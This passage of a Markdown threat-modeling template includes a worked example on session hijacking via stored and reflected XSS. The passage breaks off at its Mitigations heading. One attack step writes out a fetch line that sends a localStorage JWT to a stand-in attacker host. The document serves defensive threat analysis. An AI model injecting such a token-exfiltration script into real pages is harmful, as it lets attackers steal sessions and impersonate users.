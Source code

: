```markdown
**Likelihood**: Low / Medium / High
**Justification**: [Why this likelihood? Historical data, attack complexity]

**Impact**: Low / Medium / High / Critical
**Justification**: [What happens if successful? Data breach? System compromise?]

**Risk Score**: Likelihood × Impact = [Score]

## Mitigations
- [Mitigation 1] → See Control: [Control ID]
- [Mitigation 2] → See Control: [Control ID]

## Residual Risk
After mitigations: [Describe remaining risk]
**Accepted by**: [Role/Name] on [Date]
```

### Example: Session Hijacking Threat

```markdown
# Threat: Session Hijacking via Token Theft

## Description
**What**: Attacker steals session token and impersonates legitimate user
**How**: XSS attack injects JavaScript to extract token from localStorage
**Who**: External attacker (internet-facing attack), insider with XSS injection capability

## Affected Assets
- User session tokens (JWT stored in browser localStorage)
- Customer personal data (accessible via hijacked session)
- Administrative functions (if admin session hijacked)

## Attack Scenarios
### Scenario 1: Stored XSS
1. Attacker injects malicious script via user profile field (e.g., bio)
2. Script stored in database without sanitization
3. Victim views attacker's profile
4. Script executes: `fetch('https://attacker.com/?token=' + localStorage.getItem('jwt'))`
5. Attacker receives victim's token
6. Attacker uses token to make API calls as victim

### Scenario 2: Reflected XSS
1. Attacker sends victim malicious link: `https://app.com/search?q=<script>/* malicious */</script>`
2. Victim clicks link
3. Search query reflected in page without sanitization
4. Script executes and exfiltrates token

## Likelihood and Impact
**Likelihood**: MEDIUM
**Justification**: XSS vulnerabilities are common (OWASP Top 10). Application has user-generated content (profiles, comments). No Content Security Policy detected.

**Impact**: HIGH
**Justification**: Hijacked session grants full user access including:
- Personal data of victim (PII)
- Financial transactions (if applicable)
- Admin functions (if admin token hijacked)
Data breach affects confidentiality, integrity, availability.

**Risk Score**: Medium × High = HIGH RISK

## Mitigations
```